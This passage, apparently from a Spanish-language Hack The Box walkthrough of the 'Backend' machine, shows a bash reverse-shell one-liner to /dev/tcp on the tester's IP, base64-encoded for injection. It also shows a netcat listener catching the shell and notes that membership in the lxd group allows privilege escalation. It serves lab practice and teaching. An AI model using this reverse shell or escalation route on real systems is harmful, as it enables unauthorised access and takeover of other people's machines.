 Ahora tendremos que establecernos una revshell.

```bash
❯ echo "bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'" | base64 -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzQ0MyAwPiYxJwo=
```

Usaremos ese payload, lo tenemos codificar en formato URL para que funcione.

![](/assets/images/Backend/img8.png)

### Privesc

Si miramos nuestro listener, podemos ver que tenemos shell. Ahora tendriamos que hacer el tratamiento de la tty.


```bash
❯ nc -lvvp 443
listening on [any] 443 ...
^B210.10.11.161: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.161] 51010
bash: cannot set terminal process group (670): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb@backend:~/uhc$
```

Si miramos los grupos a los que pertenece podemos ver que estamos en el grupo lxd:

```bash
htb@backend:~/uhc$ id
uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

Si estamos en el grupo lxd podemos escalar privilegios creando un contendor. Para ello podemos seguir este tutorial: https://www.hackingarticles.in/lxd-privilege-escalation/
